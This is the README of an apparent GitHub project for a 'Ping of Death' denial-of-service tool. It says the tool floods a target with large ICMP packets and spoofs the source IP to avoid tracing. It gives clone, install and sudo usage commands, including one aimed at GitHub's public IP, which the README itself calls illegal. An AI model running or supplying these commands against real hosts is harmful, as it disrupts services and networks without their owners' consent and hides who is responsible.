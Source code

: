 # ping of death

This Python script is designed to execute a "Ping of Death" attack, a type of Denial-of-Service (DoS) attack that overwhelms a specified target IP address with large ICMP packets. The script employs IP spoofing to mask the source IP address, making it more challenging to trace the attack back to its origin.

### install

```bash
git clone https://github.com/savasick/pingofdeath.git
cd pingofdeath
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt
```

### usage

send to router-IP
```bash
sudo python3 pingofdeath.py
```

send to 192.168.5.110-IP
```bash
sudo python pingofdeath.py 192.168.5.110
```

send to GitHub's IP (not recommended and illegal):
```bash
sudo python pingofdeath.py 140.82.121.3
```